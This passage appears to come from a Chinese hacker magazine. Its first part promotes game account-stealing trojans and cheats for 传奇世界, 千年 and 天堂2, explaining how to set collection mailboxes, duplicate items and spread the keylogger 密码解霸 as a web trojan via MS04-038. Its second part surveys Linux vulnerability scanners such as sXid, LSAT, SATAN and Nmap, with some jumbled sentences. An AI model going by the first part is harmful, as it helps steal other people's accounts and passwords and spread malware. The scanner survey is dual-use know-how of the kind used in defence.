

图4



嘿嘿，注意看哦，账号内可是多了20000点，赶快去下载一个试试吧！

### 传奇世界篇

传奇世界好像从公测到现在还没有出什么漏洞，它用的是动态的数据连接，而且木马也就出了一种，是黑白小组制作的——不过，针对这个版本出了很多破解、加壳的改版，如图5所示。

它的使用比较简单，添加发信箱、收信箱就可以了，可以填写3个，以保证收信的质量，记得点“验证邮箱是否能收到信”来检查能不能收到邮件。此外，有个地方千万要记得修改，如图6所示。看到圈起来的地方了吗？不说大家也知道是干什么的吧？后门邮箱会让你辛苦的血汗泄露给别人的哦！



### 千年篇

千年最开始出测试版的时候，笔者可是挂着8倍的变速齿轮在千年地图上跑，正式版出来后，虽说提不到8倍的变速了，但也可以加速到4倍，或者使用“兄弟加速器”加速到16000，走路很快的！

过了不久，踢人软件又出来了，这个软件很厉害，搞不清楚为什么就能随便踢。笔者也踢过人和挨过踢，很过瘾的那种感觉。最近千年屏蔽了踢人软件，屏蔽了加速，即使是加速也加得不多。不过没过多久又出来一个复制神器，这个比踢人软件还厉害！传说服务器的神器现在还非常便宜，就是因为复制得太多了。笔者朋友复制的假黄龙服，GM根本没删干净，还有很多没删除的复制物品也查不出来，高级武功也开放了，爽！

最近新的漏洞又出来了——喊话软件。这个比较不错，不管有没有开呼喊的人都能看到别人的喊话，喊话的颜色也可以随便调，这个大家都能忍，喊就喊，就当没看到就完了。其实现在最厉害的还是变速，现在的“百变神行加速器”不错，可以在王陵里横逛，没有任何一个NPC能追上，全都能拉没影了！没有使用这个软件的玩家，非常容易死在王陵里，因为别人比你跑得快，把影子都拉没了，怪物就都打你来了，因为没加速，所以跑都跑不掉。

千年现在的贵重物品可以加锁，不对付它，东西只能看不能拿，一大堆高手研究解锁封包，最终还是研究出了，虽然漏洞很快被修补，不过还是让“游戏黑客”狠赚了一笔。笔者根据这个原理用WPE做了一个已经被修补的漏洞，有兴趣的朋友可以联系笔者的E-mail：lkdd@2911.net。

### 天堂2篇

天堂2可以说得上是贵族游戏，听说游戏卡都300元一张。虽然天堂玩家利用游戏漏洞而被封了很多账号，GM也封了一些可能使用外挂的账号，可惜它的盗号程序还是到处可见，如图7、图8和图9所示。





这些天堂2的木马使用方法我就不具体多介绍了，特别傻瓜化，直接填上收信邮箱就可以了，大家可以自己去网络上搜索。


### 通吃四方

最后介绍一个通吃各种网络游戏的超级密码记录器——密码解霸！千万不要扭过头，虽然很多人不喜欢它，但它的确是一款“通吃”的好东西，可以捕获Windows 9x/2000/XP下的几乎所有普通窗口的登录密码，如ICQ/QQ、Outlook、Foxmail、网吧上网账号、软件注册码、各种游戏、各种财务软件、各种管理软件、拨号上网、共享目录、屏保，以及各种网页登录密码等……由于它的功能很强大，所以出了很多版本，不过大多是收费的，如图10所示。



图10

用密码解霸做成网页木马可比去网吧下马要强得多，例如CHM木马、控件木马等。微软的MS04-038漏洞也是一个IE漏洞，可以执行我们可爱的木马文件。不过，要做成网页木马，文件当然是越小越好，下面介绍的软件——潜入者可以帮忙，如图11所示。



图11

潜入者是由灰鸽子工作室独家定做，可以按提供的地址快速下载木马文件，但是不是每个人都会进你的网站，所以一种职业的黑站挂木马行业开始兴起……

以上关于网游盗号的介绍就到此为止了，大家可以根据需要在网上搜索适合自己的软件，本文只做技术交流，盗号者引起的后果自负。

## Linux下精品黑软大阅兵



文/图 风之扬

Linux是一个开放源代码的免费操作系统，它不仅安全、稳定、成本低，而且很少发现有病毒传播。近年来，随着Linux在国内的不断普及，越来越多的服务器、工作站和个人电脑开始使用Linux系统……本文的目的就是希望用户以最快的速度对Linux下的精品黑客软件功能及使用方法有一个比较细致全面的了解。

这些行为，也可以大大减少入侵事件的发生。按常规标准，我们可以将漏洞扫描器分为两种类型：主机漏洞扫描器（Host Scanner）和网络漏洞扫描器（Network Scanner）……下面我们选取一些典型的软件及实例进行介绍。

### 1．基于主机的扫描软件

- 1) sXid

软件下载地址：http://www.phunnypharm.org/pub/sxid/

sXid是一个系统监控程序，软件下载安装后，使用“make install”命令即可安装。它可以扫描系统中Suid和Sgid文件和目录……缺省安装的配置文件为/etc/sxid.conf，日志文件缺省为/var/log/sxid.log……漏洞扫描器是一种自动检测远程或本地主机安全性弱点的程序。和Windows系统一样，当黑客得到目标主机清单后，他就可以利用一些Linux扫描器程序寻找这些主机的漏洞……而对系统管理员来说，如果能够及时发现并阻止这些行为，就可以大大减少入侵事件的发生。

log文件设置为只可添加。此外，我们还可以随时用“sxid -k”选项来进行检查，这种检查方式很灵活，既不记入日志，又不发出E-mail，如图1所示。



图1

```
****************************************
This is a list of SGID files/directories on the system:
/ROOT/sendmail.bak
/ROOT/mta.bak
/sbin/netreport
****************************************
List of normal files in /dev. MAKEDEV is ok, but there should be no other files:
/dev/MAKEDEV
/dev/MAKEDEV.afa
****************************************
This is a list of world writable files:
/etc/cron.daily/backup.sh
/etc/cron.daily/update_CDV.sh
/etc/megamonitor/monitor
/ROOT/e
/ROOT/pl/outfile
```

#### （2）LSAT

软件下载地址：http://lsat.sourceforge.net/

Linux Security Auditing Tool（LSAT）是一款本地安全扫描程序，发现默认配置不安全时，它可以生成报告。LSAT由Triode开发，主要针对基于RPM的Linux发布设计的。软件下载后，需要进行如下编译：

```
cndes$ tar xzvf lsat-VERSION.tgz
cndes$ cd lsat-VERSION
cndes$ ./configure
cndes$ make
```

然后以ROOT身份运行：ROOT# ./lsat。默认情况下，它会生成一份名字叫Lsat.out的报告。我们也可以指定以下一些选项：

- `-o filename`：指定生成报告的文件名
- `-v`：详细输出模式
- `-s`：不在屏幕上打印任何信息，只生成报告
- `-r`：执行RPM校验和检查，找出默认内容和权限被改动的文件

LSAT可以检查的内容很多，主要有检查无用的RPM安装、检查inetd/xinetd和一些系统配置文件、检查SUID和SGID文件、检查777的文件、检查进程和服务、开放端口等。LSAT的常用方法是用Cron定期调用，然后用Diff比较当前报告和以前报告的区别，就可以发现系统配置发生的变化。下面是一个测试中的报告片断：

```
****************************************
This is a list of SUID files on the system:
/bin/ping
/bin/mount
/bin/umount
/bin/su
/sbin/pam_timestamp_check
/sbin/pwdb_chkpwd
/sbin/unix_chkpwd
```

#### （3）COPS

软件下载地址：http://www.fish.com/cops/

COPS可以报告系统的配置错误以及其他信息，对Linux系统进行安全检查。其检测目标有文件、目录和设备文件的权限检查，重要系统文件的内容、格式和权限，是否存在所有者为ROOT的SUID文件，对重要系统二进制文件进行CRC校验和检查，看其是否被修改过；对匿名FTP、Sendmail等网络应用进行检查。需要指出的是，COPS只是监测工具，并不做实际的修复。这个软件比较适合配合其他工具使用，其优点在于比较擅长找到潜在的漏洞。

#### （4）GNU Tiger

软件下载地址：http://savannah.nongnu.org/projects/tiger

这款扫描软件可以检测本机安全性，源自TAMU的Tiger（一个老牌扫描软件）。Tiger程序可以检查的项目有系统配置错误、不安全的权限设置、所有用户可写的文件、SUID和SGID文件、Crontab条目、Sendmail和FTP设置、脆弱的口令或者空口令、系统文件的改动。另外，它还能暴露各种弱点并产生详细报告。

#### （5）Nabou

软件下载地址：http://www.nabou.org

Nabou是一个可以用来监视系统变化的Perl程序，它提供文件完整性和用户账号等检查，并将所有数据保存在数据库里。此外，用户也可以在配置文件中嵌入Perl代码来定义自己的函数，执行自定义测试，操作十分方便。

#### （6）SATAN

软件下载地址：http://www.fish.com/satan/

SATAN可以用来帮助系统管理员检测安全，也能被基于网络的攻击者用来搜索脆弱的系统。SATAN是为系统和管理员设计的一个安全工具。由于它的广泛性、易用性和扫描远程网络的能力，SATAN也可能因为好奇而被用来定位有弱点的主机。SATAN包括一个有关网络安全问题的检测表，经过网络查找特定的系统或者子网，并报告它的发现。它能搜索以下的弱点：

- NFS——由无权限的程序或端口导出。
- NIS——口令文件访问。

- Rexd——是否被防火墙阻止。  
- Sendmail——各种弱点。  
- TFTP——FTP、Wu-ftpd 或 TFTP 配置问题。  
- 远程 Shell 的访问——它是否被禁止或者隐藏。  
- X-Windows——主机是否提供无控制的访问。  
- Modem——经过 TCP 没有限制拨号访问。

#### （7）Strobe

软件下载地址：http://sunsite.kth.se/linux/system/network/admin

Strobe 是一个 TCP 端口扫描器，它可以记录指定机器的所有开放端口，运行速度非常快。它最初用于扫描局域网中公开的电子邮件，从而得到邮件用户信息。Strobe 的另一个重要特点是它能快速识别指定机器上正在运行什么服务，不足之处是这类信息量比较有限。

#### （8）IdentTCPscan

软件下载地址：http://www.giga.or.at/pub/hacker/unix/

IdentTCPscan 是一个比较专业的扫描器，可以在各种平台上运行。软件加入了识别指定 TCP 端口进程的所有者的功能，也就是说，它能测定该进程的 UID。这个程序很重要的功能就是通过发现进程的 UID，很快识别出错误配置。它的运行速度非常快，可以称得上是入侵者的宠物，是一个强大、锐利的工具。

## 2．基于网络的扫描工具

#### （1）Nmap

软件下载地址：http://www.insecure.org/nmap

Nmap 即 Network Mapper，它是在免费软件基金会的 GNU General Public License（GPL）下发布的。其基本功能有探测一组主机是否在线、扫描主机端口、嗅探提供的网络服务、判断主机的操作系统。软件下载后，执行 configure、make 和 make install 三个命令，将 nmap 二进制码安装到系统上，就可以执行 Nmap 了。

Nmap 的语法很简单，但功能十分强大。比如 Ping-scan 命令就是“-sP”。在确定了目标主机和网络之后，即可进行扫描。如果以 ROOT 来运行 Nmap，Nmap 的功能会更加强，因为超级用户可以创建便于 Nmap 利用的定制数据包。使用 Nmap 进行单机扫描或是整个网络的扫描很简单，只要将带有“/mask”的目标地址指定给 Nmap 即可。另外，Nmap 允许使用各类指定的网络地址，比如 192.168.100.*，是对所选子网下的主机进行扫描。

Ping 扫描。入侵者使用 Nmap 扫描整个网络寻找目标。通过使用“-sP”命令，缺省情况下，Nmap 给每个扫描到的主机发送一个 ICMP echo 和一个 TCP ACK，主机对任何一种的响应都会被 Nmap 得到，如图2所示。

Nmap 支持不同类别的端口扫描，TCP 连接扫描可以使用“-sT”命令，具体如图3所示。

隐藏扫描（Stealth Scanning）。在扫描时，如果攻击者不想使其信息被记录在目标系统日志上，TCP SYN 扫描可帮你的忙。使用“-sS”命令，就可以发送一个 SYN 扫描探测主机或网络，如图4所示。

如果一个攻击者想进行 UDP 扫描，即可知哪些端口对 UDP 是开放的。Nmap 将发送一个 0 字节的 UDP 包到每个端口。如果主机返回端口不可达，则表示端口是关闭的，如图5所示。

操作系统识别。通过使用“-O”选项，就可以探测远程操作系统的类型。Nmap 通过向主机发送不同类型的探测信号，缩小查找的操作系统系统的范围，如图6所示。

Ident 扫描。攻击者都喜欢寻找一台对于某些进程存在漏洞的电脑，比如一个以 ROOT 运行的 Web 服务器。如果目标机运行了 identd，攻击者就可以通过“-I”选项的 TCP 连接发现哪个用户拥有 http 守护进程。我们以扫描一个 Linux Web 服务器为例，使用如下命令即可：

```bash
# nmap -sT -p 80 -iL -O www.yourserver.com
```

